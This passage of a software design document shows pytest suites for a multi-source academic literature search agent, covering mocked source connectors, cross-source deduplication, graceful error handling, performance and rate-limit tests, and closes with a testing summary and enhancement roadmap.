                'authors': ['Lee, H.', 'Kim, S.'],
                'doi': '10.1148/radiol.2024231456',
                'abstract': 'Purpose: To systematically review the current state of AI...',
                'source': 'pubmed',
                'publication_date': '2024-01-10',
                'pmid': '38123456'
            }
        ]
        
        crossref_results = [
            {
                'title': 'Ethical Considerations in Medical AI Development',
                'authors': ['Martinez, C.', 'Anderson, B.'],
                'doi': '10.1038/s41586-2024-07123-x',
                'abstract': 'The rapid advancement of AI in medicine raises important ethical...',
                'source': 'crossref',
                'publication_date': '2024-01-25'
            }
        ]
        
        # Configure mock connector behavior
        mock_source_connectors['semantic_scholar'].search = AsyncMock(return_value=semantic_scholar_results)
        mock_source_connectors['pubmed'].search = AsyncMock(return_value=pubmed_results)
        mock_source_connectors['crossref'].search = AsyncMock(return_value=crossref_results)
        
        # Execute multi-source search
        search_coordinator = MultiSourceSearchCoordinator(mock_source_connectors)
        
        search_query = SearchQuery(
            lit_review_id="integration_test_001",
            query="machine learning medical AI healthcare",
            sources=['semantic_scholar', 'pubmed', 'crossref'],
            max_results_per_source=50,
            filters={
                'publication_date_range': {'start': '2024-01-01', 'end': '2024-12-31'},
                'publication_types': ['journal_article', 'review'],
                'languages': ['en']
            }
        )
        
        # Measure search execution time
        start_time = time.time()
        results = await search_coordinator.execute_search(search_query)
        execution_time = time.time() - start_time
        
        # Verify search coordination
        assert len(results) == 5, f"Expected 5 total results, got {len(results)}"
        
        # Verify source distribution
        source_counts = {}
        for result in results:
            source = result.get('source')
            source_counts[source] = source_counts.get(source, 0) + 1
        
        assert source_counts['semantic_scholar'] == 2, "Should have 2 Semantic Scholar results"
        assert source_counts['pubmed'] == 2, "Should have 2 PubMed results"
        assert source_counts['crossref'] == 1, "Should have 1 CrossRef result"
        
        # Verify parallel execution efficiency
        assert execution_time < 10.0, f"Parallel search should complete quickly, took {execution_time:.2f}s"
        
        # Verify all mock connectors were called
        for source, connector in mock_source_connectors.items():
            if source in ['semantic_scholar', 'pubmed', 'crossref']:
                connector.search.assert_called_once()
        
        # Verify query parameters were passed correctly
        call_args = mock_source_connectors['semantic_scholar'].search.call_args
        assert call_args[0][0] == search_query.query, "Query should be passed to connectors"
    
    @pytest.mark.asyncio
    async def test_intelligent_deduplication_across_sources(self):
        """
        Test sophisticated deduplication logic across multiple academic sources.
        
        This test validates that the system can effectively identify and handle
        duplicate publications that appear in multiple databases, using various
        matching strategies including DOI, title similarity, and author matching.
        """
        # Create test data with intentional duplicates and near-duplicates
        test_records = [
            # Exact duplicate (same DOI, different sources)
            NormalizedRecord(
                record_id="sem_001",
                title="Machine Learning Applications in Precision Medicine",
                authors=["Smith, Jennifer A.", "Brown, Katherine L.", "Wilson, David M."],
                doi="10.1038/s41591-2024-0123-4",
                abstract="This study examines the application of machine learning...",
                source="semantic_scholar",
                publication_date=datetime(2024, 1, 15),
                journal="Nature Medicine"
            ),
            NormalizedRecord(
                record_id="pub_001",
                title="Machine Learning Applications in Precision Medicine",
                authors=["Smith, J.A.", "Brown, K.L.", "Wilson, D.M."],  # Slightly different format
                doi="10.1038/s41591-2024-0123-4",  # Same DOI
                abstract="This study examines the application of machine learning...",
                source="pubmed",
                publication_date=datetime(2024, 1, 15),
                journal="Nature Medicine",
                pmid="38234567"
            ),
            
            # Near duplicate (same title, similar authors, no DOI conflict)
            NormalizedRecord(
                record_id="cross_001",
                title="Machine Learning Applications in Precision Medicine: A Review",  # Slightly different
                authors=["Smith, J.A.", "Brown, K.L.", "Wilson, D.M."],
                doi="10.1038/s41591-2024-0123-4",  # Same DOI indicates same paper
                abstract="This comprehensive study examines machine learning...",  # Slightly different
                source="crossref",
                publication_date=datetime(2024, 1, 15),
                journal="Nature Medicine"
            ),
            
            # Unique record
            NormalizedRecord(
                record_id="arxiv_001",
                title="Novel Deep Learning Architectures for Medical Image Analysis",
                authors=["Zhang, Li", "Wang, Ming"],
                doi="10.48550/arXiv.2401.12345",
                abstract="We propose novel deep learning architectures...",
                source="arxiv",
                publication_date=datetime(2024, 1, 20),
                journal="arXiv preprint"
            ),
            
            # Another unique record
            NormalizedRecord(
                record_id="ieee_001",
                title="Federated Learning in Healthcare: Privacy-Preserving AI",
                authors=["Johnson, Robert", "Davis, Amanda"],
                doi="10.1109/TBME.2024.3356789",
                abstract="Federated learning enables collaborative AI development...",
                source="ieee",
                publication_date=datetime(2024, 1, 25),
                journal="IEEE Transactions on Biomedical Engineering"
            )
        ]
        
        # Execute deduplication
        deduplicator = IntelligentDeduplicator(
            similarity_threshold=0.85,
            author_matching_threshold=0.8,
            title_matching_threshold=0.9
        )
        
        deduplicated_records = await deduplicator.deduplicate_records(test_records)
        
        # Verify deduplication results
        assert len(deduplicated_records) == 3, f"Expected 3 unique records after deduplication, got {len(deduplicated_records)}"
        
        # Verify that the best version of duplicates was kept
        precision_medicine_papers = [
            r for r in deduplicated_records 
            if "precision medicine" in r.title.lower()
        ]
        assert len(precision_medicine_papers) == 1, "Should have only one precision medicine paper after deduplication"
        
        # Verify that the kept record has the most complete information
        kept_paper = precision_medicine_papers[0]
        assert kept_paper.pmid is not None or kept_paper.source == "semantic_scholar", "Should prefer record with additional metadata"
        
        # Verify unique records were preserved
        unique_titles = [r.title for r in deduplicated_records]
        assert any("deep learning architectures" in title.lower() for title in unique_titles), "Should preserve unique deep learning paper"
        assert any("federated learning" in title.lower() for title in unique_titles), "Should preserve unique federated learning paper"
        
        # Check deduplication metadata
        for record in deduplicated_records:
            assert hasattr(record, '_deduplication_metadata'), "Should include deduplication metadata"
            metadata = record._deduplication_metadata
            assert 'original_sources' in metadata, "Should track original sources"
            assert 'duplicate_count' in metadata, "Should track number of duplicates found"
    
    @pytest.mark.asyncio
    async def test_error_handling_and_graceful_degradation(self):
        """
        Test comprehensive error handling and graceful degradation strategies.
        
        This test validates that the system can handle various error conditions
        gracefully, including API failures, network issues, rate limiting,
        and partial failures, while still providing useful results where possible.
        """
        # Configure mock connectors with various error scenarios
        mock_connectors = {}
        
        # Semantic Scholar: Rate limit error
        mock_connectors['semantic_scholar'] = Mock(spec=BaseSourceConnector)
        mock_connectors['semantic_scholar'].search = AsyncMock(
            side_effect=RateLimitError("API rate limit exceeded. Retry after 60 seconds.")
        )
        
        # PubMed: Successful operation
        mock_connectors['pubmed'] = Mock(spec=BaseSourceConnector)
        mock_connectors['pubmed'].search = AsyncMock(return_value=[
            {
                'title': 'Successful PubMed Result',
                'authors': ['Research, Dr.'],
                'doi': '10.1234/pubmed.success',
                'source': 'pubmed',
                'pmid': '12345678'
            }
        ])
        
        # CrossRef: Network timeout
        mock_connectors['crossref'] = Mock(spec=BaseSourceConnector)
        mock_connectors['crossref'].search = AsyncMock(
            side_effect=asyncio.TimeoutError("Request timed out after 30 seconds")
        )
        
        # arXiv: Service unavailable
        mock_connectors['arxiv'] = Mock(spec=BaseSourceConnector)
        mock_connectors['arxiv'].search = AsyncMock(
            side_effect=ServiceUnavailableError("arXiv API is temporarily unavailable")
        )
        
        # Test search with error handling
        search_coordinator = MultiSourceSearchCoordinator(
            mock_connectors,
            error_handling_strategy='graceful_degradation',
            min_successful_sources=1  # Continue if at least one source succeeds
        )
        
        search_query = SearchQuery(
            lit_review_id="error_handling_test",
            query="machine learning test",
            sources=['semantic_scholar', 'pubmed', 'crossref', 'arxiv'],
            max_results_per_source=20,
            timeout_per_source=30
        )
        
        # Execute search with error conditions
        results = await search_coordinator.execute_search(search_query)
        
        # Verify graceful degradation
        assert len(results) > 0, "Should return results from successful sources despite failures"
        assert all(r['source'] == 'pubmed' for r in results), "Should only have results from successful source"
        
        # Verify error reporting
        error_summary = search_coordinator.get_last_execution_errors()
        assert len(error_summary) == 3, "Should report errors from 3 failed sources"
        
        # Check specific error types were captured
        error_types = [error['error_type'] for error in error_summary]
        assert 'RateLimitError' in error_types, "Should capture rate limit error"
        assert 'TimeoutError' in error_types, "Should capture timeout error"
        assert 'ServiceUnavailableError' in error_types, "Should capture service unavailable error"
        
        # Verify retry recommendations
        for error in error_summary:
            assert 'retry_recommended' in error, "Should provide retry recommendations"
            assert 'estimated_retry_delay' in error, "Should estimate retry delay"
    
    @pytest.mark.asyncio
    async def test_end_to_end_literature_search_workflow(self):
        """
        Test complete end-to-end literature search workflow.
        
        This test validates the entire system workflow from initial query
        through final result delivery, including all intermediate processing
        steps such as normalization, validation, deduplication, and storage.
        """
        # Initialize complete system stack
        validator = RecordValidator()
        quota_manager = APIQuotaManager()
        deduplicator = IntelligentDeduplicator()
        storage_manager = ResultStorageManager()
        
        # Configure realistic system state
        await quota_manager.configure_source_limits('pubmed', QuotaLimit(
            requests_per_minute=30,
            requests_per_hour=1000,
            requests_per_day=10000
        ))
        
        # Create end-to-end search request
        literature_search_request = LiteratureSearchRequest(
            search_id="e2e_test_001",
            user_id="test_researcher",
            research_topic="artificial intelligence in medical diagnosis",
            search_parameters={
                'query': 'artificial intelligence AND medical diagnosis',
                'date_range': {'start': '2020-01-01', 'end': '2024-12-31'},
                'publication_types': ['journal_article', 'systematic_review'],
                'sources': ['pubmed', 'semantic_scholar'],
                'max_results': 100,
                'quality_threshold': 0.7
            },
            processing_options={
                'enable_deduplication': True,
                'enable_quality_filtering': True,
                'enable_citation_enhancement': True,
                'store_intermediate_results': True
            }
        )
        
        # Execute complete workflow
        workflow_executor = LiteratureSearchWorkflow(
            validator=validator,
            quota_manager=quota_manager,
            deduplicator=deduplicator,
            storage_manager=storage_manager
        )
        
        start_time = time.time()
        final_results = await workflow_executor.execute_complete_search(literature_search_request)
        total_execution_time = time.time() - start_time
        
        # Verify workflow completion
        assert final_results is not None, "Workflow should complete successfully"
        assert final_results.search_id == "e2e_test_001", "Should maintain search ID"
        assert len(final_results.records) > 0, "Should return search results"
        
        # Verify processing pipeline execution
        pipeline_summary = final_results.processing_summary
        assert pipeline_summary['normalization_completed'] == True, "Should complete normalization"
        assert pipeline_summary['validation_completed'] == True, "Should complete validation"
        assert pipeline_summary['deduplication_completed'] == True, "Should complete deduplication"
        assert pipeline_summary['storage_completed'] == True, "Should complete storage"
        
        # Verify quality standards
        quality_scores = [record.quality_score for record in final_results.records if hasattr(record, 'quality_score')]
        if quality_scores:
            avg_quality = sum(quality_scores) / len(quality_scores)
            assert avg_quality >= 0.7, f"Average quality should meet threshold, got {avg_quality:.2f}"
        
        # Verify performance requirements
        assert total_execution_time < 120, f"E2E workflow should complete within 2 minutes, took {total_execution_time:.1f}s"
        
        # Verify audit trail
        audit_logs = await workflow_executor.get_audit_trail(literature_search_request.search_id)
        assert len(audit_logs) > 0, "Should generate audit trail"
        
        required_events = ['search_initiated', 'sources_queried', 'results_processed', 'search_completed']
        logged_events = [log['event_type'] for log in audit_logs]
        for required_event in required_events:
            assert required_event in logged_events, f"Should log {required_event} event"

#### Performance and Stress Testing Framework

Performance testing ensures that the Literature Search Agent can handle realistic workloads while maintaining acceptable response times and resource utilization. The performance testing framework validates system behavior under various load conditions and identifies potential bottlenecks.

Key performance testing areas include:

- **Concurrent query handling**: Testing system behavior under multiple simultaneous searches
- **Large result set processing**: Validating performance with high-volume data
- **Memory efficiency**: Ensuring reasonable memory usage during processing
- **API rate limit optimization**: Testing intelligent quota management under load
- **Error recovery performance**: Measuring system recovery time after failures

```python
class TestPerformanceAndScalability:
    """
    Comprehensive performance and scalability test suite.
    
    This test class validates system performance under various load conditions,
    ensuring the Literature Search Agent can handle realistic research workloads
    while maintaining acceptable response times and resource utilization.
    """
    
    @pytest.mark.asyncio
    async def test_concurrent_multi_source_search_performance(self):
        """
        Test system performance under concurrent multi-source search load.
        
        This test validates that the system can handle multiple simultaneous
        literature searches without significant performance degradation or
        resource exhaustion. The test measures response times, success rates,
        and resource utilization under realistic concurrent load.
        """
        async def execute_single_search(search_id: int, query_complexity: str = "medium") -> Dict[str, Any]:
            """
            Execute a single literature search with performance monitoring.
            
            Args:
                search_id: Unique identifier for the search operation
                query_complexity: Complexity level affecting search scope
                
            Returns:
                Dictionary containing performance metrics and results
            """
            # Define query complexity levels
            query_templates = {
                "simple": "machine learning",
                "medium": "machine learning AND healthcare AND diagnosis",
                "complex": "(machine learning OR artificial intelligence) AND (healthcare OR medical) AND (diagnosis OR treatment) AND (clinical OR patient)"
            }
            
            search_query = SearchQuery(
                lit_review_id=f"concurrent_perf_test_{search_id:03d}",
                query=query_templates[query_complexity],
                sources=['semantic_scholar', 'pubmed', 'crossref'],
                max_results_per_source=50,
                filters={
                    'publication_date_range': {'start': '2020-01-01', 'end': '2024-12-31'},
                    'publication_types': ['journal_article', 'review'],
                    'languages': ['en']
                }
            )
            
            # Monitor resource usage
            import psutil
            process = psutil.Process()
            start_memory = process.memory_info().rss / 1024 / 1024  # MB
            start_cpu_percent = process.cpu_percent()
            
            start_time = time.time()
            
            try:
                # Execute search with timeout
                results = await asyncio.wait_for(
                    execute_literature_search(search_query),
                    timeout=60.0  # 1 minute timeout
                )
                
                end_time = time.time()
                end_memory = process.memory_info().rss / 1024 / 1024  # MB
                end_cpu_percent = process.cpu_percent()
                
                return {
                    'search_id': search_id,
                    'query_complexity': query_complexity,
                    'duration': end_time - start_time,
                    'result_count': len(results),
                    'memory_usage_mb': end_memory - start_memory,
                    'cpu_usage_percent': end_cpu_percent - start_cpu_percent,
                    'success': True,
                    'error': None
                }
                
            except asyncio.TimeoutError:
                return {
                    'search_id': search_id,
                    'query_complexity': query_complexity,
                    'duration': 60.0,
                    'result_count': 0,
                    'success': False,
                    'error': 'timeout'
                }
            except Exception as e:
                end_time = time.time()
                return {
                    'search_id': search_id,
                    'query_complexity': query_complexity,
                    'duration': end_time - start_time,
                    'result_count': 0,
                    'success': False,
                    'error': str(e)
                }
        
        # Test configuration
        concurrent_searches = 20
        query_complexity_distribution = (
            ["simple"] * 8 + 
            ["medium"] * 10 + 
            ["complex"] * 2
        )
        
        # Execute concurrent searches
        tasks = [
            execute_single_search(i, query_complexity_distribution[i])
            for i in range(concurrent_searches)
        ]
        
        # Measure overall execution time
        overall_start_time = time.time()
        results = await asyncio.gather(*tasks, return_exceptions=True)
        overall_execution_time = time.time() - overall_start_time
        
        # Analyze performance results
        successful_searches = [r for r in results if isinstance(r, dict) and r.get('success', False)]
        failed_searches = [r for r in results if isinstance(r, dict) and not r.get('success', False)]
        
        # Success rate validation
        success_rate = len(successful_searches) / concurrent_searches
        assert success_rate >= 0.85, f"Expected ≥85% success rate, got {success_rate:.1%}"
        
        # Performance metrics analysis
        durations = [r['duration'] for r in successful_searches]
        memory_usage = [r['memory_usage_mb'] for r in successful_searches if 'memory_usage_mb' in r]
        
        avg_duration = sum(durations) / len(durations) if durations else 0
        max_duration = max(durations) if durations else 0
        p95_duration = sorted(durations)[int(0.95 * len(durations))] if durations else 0
        
        # Performance assertions
        assert avg_duration < 25.0, f"Average search duration should be <25s, got {avg_duration:.1f}s"
        assert max_duration < 45.0, f"Maximum search duration should be <45s, got {max_duration:.1f}s"
        assert p95_duration < 35.0, f"95th percentile duration should be <35s, got {p95_duration:.1f}s"
        
        # Memory efficiency validation
        if memory_usage:
            avg_memory = sum(memory_usage) / len(memory_usage)
            max_memory = max(memory_usage)
            assert avg_memory < 100, f"Average memory usage should be <100MB, got {avg_memory:.1f}MB"
            assert max_memory < 200, f"Maximum memory usage should be <200MB, got {max_memory:.1f}MB"
        
        # Report comprehensive performance metrics
        logger.info("Concurrent search performance results",
                   concurrent_searches=concurrent_searches,
                   success_rate=f"{success_rate:.1%}",
                   avg_duration=f"{avg_duration:.2f}s",
                   p95_duration=f"{p95_duration:.2f}s",
                   max_duration=f"{max_duration:.2f}s",
                   overall_execution_time=f"{overall_execution_time:.2f}s",
                   avg_memory_usage=f"{sum(memory_usage)/len(memory_usage):.1f}MB" if memory_usage else "N/A")
    
    @pytest.mark.asyncio
    async def test_large_result_set_processing_performance(self):
        """
        Test system performance with large-scale result processing.
        
        This test validates that the system can efficiently process large
        volumes of search results through the complete pipeline including
        normalization, validation, deduplication, and storage operations.
        """
        # Generate large realistic dataset
        large_dataset_size = 10000
        logger.info(f"Generating test dataset with {large_dataset_size} records")
        
        mock_records = []
        for i in range(large_dataset_size):
            # Create realistic academic records with varying quality
            quality_tier = i % 3  # Distribute across quality tiers
            
            if quality_tier == 0:  # High quality (30%)
                record = {
                    'title': f'Advanced Machine Learning Techniques in Medical Diagnosis: Case Study {i:05d}',
                    'authors': [f'Researcher_{i}_A', f'Researcher_{i}_B', f'Researcher_{i}_C'],
                    'doi': f'10.1038/nature.2024.{i:06d}',
                    'abstract': (
                        f'Background: This study investigates advanced machine learning techniques for medical diagnosis {i}. '
                        f'Methods: We employed deep neural networks and ensemble methods to analyze clinical data. '
                        f'Results: Our approach achieved 95.{i%100:02d}% accuracy in diagnostic classification. '
                        f'Conclusion: These findings demonstrate significant improvements in medical diagnostic accuracy.'
                    ),
                    'publication_date': f'2024-{(i%12)+1:02d}-{(i%28)+1:02d}',
                    'journal': f'Nature Medicine',
                    'source': 'pubmed',
                    'impact_factor': 87.24,
                    'open_access': True
                }
            elif quality_tier == 1:  # Medium quality (40%)
                record = {
                    'title': f'ML Study {i}: Healthcare Applications',
                    'authors': [f'Author_{i}', f'Coauthor_{i}'],
                    'doi': f'10.1016/journal.{i:06d}',
                    'abstract': f'This study examines machine learning in healthcare. Study number {i} focuses on specific applications.',
                    'publication_date': f'2024-{(i%12)+1:02d}-{(i%28)+1:02d}',
                    'journal': f'Journal of Medical AI',
                    'source': 'semantic_scholar'
                }
            else:  # Lower quality (30%)
                record = {
                    'title': f'Paper {i}',
                    'authors': [f'A_{i}'],
                    'abstract': f'Short abstract {i}.',
                    'publication_date': f'2024-{(i%12)+1:02d}-{(i%28)+1:02d}',
                    'source': 'crossref'
                }
            
            mock_records.append(record)
        
        # Test normalization performance
        logger.info("Testing normalization performance")
        normalization_start = time.time()
        
        normalized_records = []
        batch_size = 1000
        
        for batch_start in range(0, len(mock_records), batch_size):
            batch = mock_records[batch_start:batch_start + batch_size]
            batch_normalized = [normalize_record(record) for record in batch]
            normalized_records.extend(batch_normalized)
        
        normalization_time = time.time() - normalization_start
        normalization_rate = len(mock_records) / normalization_time
        
        assert normalization_rate >= 1000, f"Normalization should process ≥1000 records/sec, got {normalization_rate:.0f}"
        
        # Test validation performance on subset (for efficiency)
        logger.info("Testing validation performance")
        validation_sample_size = 2000
        validation_sample = normalized_records[:validation_sample_size]
        
        validator = RecordValidator()
        validation_start = time.time()
        
        validation_results = []
        for record in validation_sample:
            result = validator.validate_record(record)
            validation_results.append(result)
        
        validation_time = time.time() - validation_start
        validation_rate = validation_sample_size / validation_time
        
        assert validation_rate >= 200, f"Validation should process ≥200 records/sec, got {validation_rate:.0f}"
        
        # Test deduplication performance
        logger.info("Testing deduplication performance")
        
        # Create intentional duplicates for realistic testing
        duplicate_sample = normalized_records[:5000]  # Use manageable subset
        duplicate_sample.extend(normalized_records[:100])  # Add 100 duplicates
        
        deduplicator = IntelligentDeduplicator()
        deduplication_start = time.time()
        
        deduplicated_records = await deduplicator.deduplicate_records(duplicate_sample)
        
        deduplication_time = time.time() - deduplication_start
        deduplication_rate = len(duplicate_sample) / deduplication_time
        
        assert deduplication_rate >= 100, f"Deduplication should process ≥100 records/sec, got {deduplication_rate:.0f}"
        assert len(deduplicated_records) < len(duplicate_sample), "Should remove duplicates"
        
        # Memory efficiency verification
        import psutil
        process = psutil.Process()
        peak_memory_mb = process.memory_info().rss / 1024 / 1024
        
        # Memory usage should be reasonable for dataset size
        expected_max_memory = (large_dataset_size * 2) / 1000  # ~2KB per record in MB
        assert peak_memory_mb < expected_max_memory * 2, f"Memory usage should be reasonable, got {peak_memory_mb:.1f}MB"
        
        # Report performance summary
        logger.info("Large dataset processing performance",
                   dataset_size=large_dataset_size,
                   normalization_rate=f"{normalization_rate:.0f} records/sec",
                   validation_rate=f"{validation_rate:.0f} records/sec",
                   deduplication_rate=f"{deduplication_rate:.0f} records/sec",
                   peak_memory_usage=f"{peak_memory_mb:.1f}MB",
                   total_processing_time=f"{normalization_time + validation_time + deduplication_time:.1f}s")
```

            validation_results.append(result)
        
        validation_time = time.time() - validation_start
        
        # Test deduplication performance
        dedup_start = time.time()
        deduplicated = deduplicate_records(normalized_records)
        dedup_time = time.time() - dedup_start
        
        # Performance assertions
        assert normalization_time < 60.0  # Should normalize 10k records in under 1 minute
        assert validation_time < 30.0     # Should validate 1k records in under 30 seconds
        assert dedup_time < 30.0          # Should deduplicate 10k records in under 30 seconds
        
        logger.info("Large dataset processing performance",
                   record_count=large_record_count,
                   normalization_time=normalization_time,
                   validation_time=validation_time,
                   deduplication_time=dedup_time,
                   final_unique_count=len(deduplicated))
    
    @pytest.mark.asyncio
    async def test_memory_usage_under_load(self):
        """Test memory usage during intensive operations."""
        import psutil
        import gc
        
        process = psutil.Process()
        initial_memory = process.memory_info().rss / 1024 / 1024  # MB
        
        # Simulate intensive search operations
        for batch in range(5):
            # Create large batch of mock data
            batch_size = 2000
            mock_data = [
                {
                    'title': f'Batch {batch} Paper {i}',
                    'abstract': 'A' * 1000,  # 1KB abstract
                    'authors': [f'Author {i}' for i in range(10)],
                    'source': 'memory_test'
                }
                for i in range(batch_size)
            ]
            
            # Process the batch
            processed = await process_record_batch(mock_data)
            
            # Check memory usage
            current_memory = process.memory_info().rss / 1024 / 1024  # MB
            memory_increase = current_memory - initial_memory
            
            # Clean up
            del mock_data
            del processed
            gc.collect()
        
        final_memory = process.memory_info().rss / 1024 / 1024  # MB
        total_memory_increase = final_memory - initial_memory
        
        # Memory usage assertions
        assert total_memory_increase < 500  # Should not increase memory by more than 500MB
        
        logger.info("Memory usage test",
                   initial_memory=initial_memory,
                   final_memory=final_memory,
                   memory_increase=total_memory_increase)
    
    @pytest.mark.asyncio
    async def test_api_rate_limit_compliance(self):
        """Test compliance with API rate limits under load."""
        quota_manager = APIQuotaManager()
        
        # Configure strict rate limits
        quota_manager.configure_source_limits(
            'test_source',
            QuotaLimit(
                requests_per_minute=30,
                requests_per_hour=500,
                requests_per_day=5000
            )
        )
        
        # Attempt to exceed rate limits
        requests_made = 0
        rate_limit_violations = 0
        
        for i in range(50):  # Try to make 50 requests (exceeds 30/minute limit)
            quota_check = await quota_manager.check_quota_availability('test_source', 1)
            
            if quota_check['available']:
                await quota_manager.record_request('test_source', 1)
                requests_made += 1
            else:
                rate_limit_violations += 1
                
                # Wait for the suggested time
                wait_time = quota_check.get('wait_time_seconds', 1)
                await asyncio.sleep(min(wait_time, 5))  # Cap wait time for test
        
        # Should have respected rate limits
        assert requests_made <= 35  # Allow some buffer
        assert rate_limit_violations > 0  # Should have detected rate limit hits
        
        logger.info("Rate limit compliance test",
                   requests_attempted=50,
                   requests_made=requests_made,
                   rate_limit_violations=rate_limit_violations)

#### Quality Assurance Tests

```python
class TestSearchQualityAssurance:
    """Test suite for search result quality and relevance."""
    
    @pytest.mark.asyncio
    async def test_search_result_relevance(self):
        """Test relevance of search results to query."""
        test_queries = [
            {
                'query': 'machine learning healthcare diagnosis',
                'expected_keywords': ['machine learning', 'healthcare', 'diagnosis', 'AI', 'medical']
            },
            {
                'query': 'COVID-19 treatment clinical trial',
                'expected_keywords': ['COVID-19', 'SARS-CoV-2', 'treatment', 'clinical trial', 'therapy']
            }
        ]
        
        for test_case in test_queries:
            results = await execute_search(SearchQuery(
                lit_review_id="relevance_test",
                query=test_case['query'],
                sources=['semantic_scholar'],
                max_results=20,
                filters={}
            ))
            
            # Check relevance by keyword presence
            relevant_count = 0
            for result in results:
                title_lower = result.title.lower()
                abstract_lower = (result.abstract or '').lower()
                
                keyword_matches = sum(
                    1 for keyword in test_case['expected_keywords']
                    if keyword.lower() in title_lower or keyword.lower() in abstract_lower
                )
                
                if keyword_matches >= 2:  # At least 2 keywords should match
                    relevant_count += 1
            
            relevance_rate = relevant_count / len(results) if results else 0
            assert relevance_rate >= 0.7  # At least 70% of results should be relevant
    
    def test_metadata_completeness_validation(self):
        """Test completeness of metadata across different sources."""
        # Test records from different sources
        test_records = [
            # High-quality record
            NormalizedRecord(
                record_id="complete_001",
                title="Complete Research Paper",
                authors=["Smith, J.", "Doe, A."],
                abstract="Comprehensive abstract with sufficient detail...",
                doi="10.1234/complete.001",
                publication_date=datetime(2024, 1, 15),
                journal="High Quality Journal",
                source="semantic_scholar",
                url="https://example.com/paper",
                open_access=True
            ),
            # Incomplete record
            NormalizedRecord(
                record_id="incomplete_001",
                title="Paper",  # Too short
                authors=[],     # Missing
                source="test_source"
            )
        ]
        
        validator = RecordValidator()
        
        complete_result = validator.validate_record(test_records[0])
        incomplete_result = validator.validate_record(test_records[1])
        
        assert complete_result.completeness_score >= 0.9
        assert incomplete_result.completeness_score <= 0.5
        
        assert complete_result.is_valid == True
        assert incomplete_result.is_valid == False
    
    def test_cross_source_consistency(self):
        """Test consistency of the same paper across different sources."""
        # Simulate same paper from different sources
        base_paper = {
            'title': 'Machine Learning Applications in Medical Diagnosis',
            'doi': '10.1234/example.2024.001',
            'first_author': 'Smith, J.'
        }
        
        # Same paper from different sources (with variations)
        semantic_scholar_version = NormalizedRecord(
            record_id="ss_001",
            title=base_paper['title'],
            authors=["Smith, J.", "Doe, A.", "Brown, K."],
            doi=base_paper['doi'],
            publication_date=datetime(2024, 1, 15),
            source="semantic_scholar"
        )
        
        pubmed_version = NormalizedRecord(
            record_id="pm_001",
            title=base_paper['title'],  # Identical title
            authors=["Smith J", "Doe A", "Brown K"],  # Slightly different format
            doi=base_paper['doi'],  # Same DOI
            publication_date=datetime(2024, 1, 15),
            source="pubmed"
        )
        
        # Test deduplication recognizes these as same paper
        records = [semantic_scholar_version, pubmed_version]
        deduplicated = deduplicate_records(records)
        
        assert len(deduplicated) == 1  # Should be recognized as duplicate
        
        # Test consistency metrics
        consistency_score = calculate_cross_source_consistency([semantic_scholar_version, pubmed_version])
        assert consistency_score >= 0.8  # High consistency expected for same paper
```

### Automated Testing Pipeline

```python
class TestAutomation:
    """Automated testing pipeline configuration."""
    
    @pytest.fixture(scope="session")
    def test_environment_setup(self):
        """Set up test environment with mock services."""
        # Set up test database
        test_db = create_test_database()
        
        # Configure test API keys
        os.environ['TEST_MODE'] = 'true'
        os.environ['SEMANTIC_SCHOLAR_API_KEY'] = 'test_key'
        os.environ['PUBMED_API_KEY'] = 'test_key'
        
        yield test_db
        
        # Cleanup
        cleanup_test_database(test_db)
    
    def test_performance_benchmarks(self):
        """Performance benchmarks for regression testing."""
        benchmarks = {
            'single_source_search_time': 5.0,  # seconds
            'multi_source_search_time': 15.0,  # seconds
            'record_normalization_rate': 1000,  # records per second
            'deduplication_rate': 500,  # records per second
            'memory_usage_max': 1000,  # MB
        }
        
        # Run performance tests and compare against benchmarks
        results = run_performance_tests()
        
        for metric, benchmark in benchmarks.items():
            assert results[metric] <= benchmark, f"{metric} exceeded benchmark: {results[metric]} > {benchmark}"
    
    @pytest.mark.integration
    def test_end_to_end_workflow(self):
        """Complete end-to-end workflow test."""
        # Test complete literature search workflow
        search_request = {
            'lit_review_id': 'e2e_test_001',
            'query': 'artificial intelligence medical diagnosis systematic review',
            'sources': ['semantic_scholar', 'pubmed'],
            'max_results': 100,
            'filters': {
                'date_range': ['2020-01-01', '2024-12-31'],
                'publication_types': ['journal_article', 'systematic_review']
            }
        }
        
        # Execute workflow
        workflow_result = execute_complete_workflow(search_request)
        
        # Validate workflow completion
        assert workflow_result['status'] == 'completed'
        assert workflow_result['records_found'] > 0
        assert workflow_result['validation_passed'] == True
        assert workflow_result['deduplication_completed'] == True
        assert workflow_result['storage_successful'] == True
```

## Summary of Testing Approach

### Core Testing Principles

- **Search query parsing and validation**: Verify correct interpretation of complex queries and filters
- **Deduplication algorithm accuracy**: Test with known duplicate sets and edge cases
- **Data normalization correctness**: Ensure consistent field mapping across sources
- **Error handling robustness**: Test recovery from various failure scenarios
- **Security validation**: Verify query sanitization and API key protection

### System Integration Validation

- **API connectivity and authentication**: Test real API connections with valid credentials
- **Multi-source search coordination**: Verify parallel execution and result aggregation
- **Database storage integration**: Test complete data persistence workflow
- **End-to-end search workflows**: Comprehensive system integration testing
- **MCP protocol compliance**: Verify correct communication with other agents

### Performance and Scalability Testing

- **Large-scale search performance**: Test with realistic query loads and result volumes
- **Concurrent request handling**: Validate system behavior under simultaneous searches
- **Memory usage optimization**: Monitor resource consumption during intensive operations
- **Rate limit compliance**: Ensure adherence to API quotas under various load patterns
- **Network resilience**: Test behavior with intermittent connectivity issues

### Quality Assurance Metrics

- **Search result relevance validation**: Compare results against manual review benchmarks
- **Duplicate detection accuracy**: Measure precision and recall of deduplication algorithms
- **Metadata completeness assessment**: Track data quality metrics across sources
- **Cross-source consistency checks**: Validate data consistency for papers found in multiple sources
- **Temporal accuracy**: Verify correct handling of publication dates and version tracking

## Future Enhancements and Strategic Roadmap

### High-Priority Enhancements

#### Semantic Search and Vector-Based Retrieval

- **Implementation**: Vector-based similarity search using embeddings (priority: HIGH)
- **Technology**: Integration with modern embedding models (e.g., SciBERT, sentence-transformers)
- **Impact**: Significant improvement in retrieval accuracy and relevance
- **Timeline**: Phase 1 implementation recommended within next development cycle
- **Benefits**: Enhanced query understanding, better handling of synonyms and related concepts

#### Machine Learning Search Optimization

- **AI-Powered Query Expansion**: Intelligent expansion of search terms based on domain knowledge
- **Relevance Scoring**: ML-based ranking of search results for improved precision
- **Auto-Classification**: Automatic identification of study types and research domains
- **Adaptive Learning**: System learns from user feedback to improve future searches

### Operational Excellence Enhancements

#### Advanced Monitoring and Analytics

- **Real-time Performance Dashboards**: Comprehensive system health monitoring
- **Search Quality Metrics**: Automated tracking of relevance and completeness scores
- **API Usage Analytics**: Detailed insights into source performance and quota utilization
- **Predictive Maintenance**: Early warning systems for potential issues

#### Enhanced Reliability Features

